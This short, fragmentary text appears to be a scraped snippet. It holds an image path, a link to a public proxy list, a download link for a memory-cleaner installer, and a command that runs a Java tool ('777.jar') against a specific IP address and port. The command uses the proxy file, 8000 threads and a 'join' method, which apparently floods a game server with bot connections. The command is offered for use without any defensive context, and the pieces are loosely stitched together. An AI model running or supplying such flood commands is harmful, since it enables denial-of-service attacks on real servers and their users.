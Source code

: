 https://openproxy.space/list/xTC72vcA26

https://github.com/henrypp/memreduct/releases/download/v.3.3.5/memreduct-3.3.5-setup.exe

java -server -Xmx7G -jar 777.jar host=51.79.76.76 port=41212 pfile=xTC72vcA26.txt threads=8000 time=60 method=join version=340
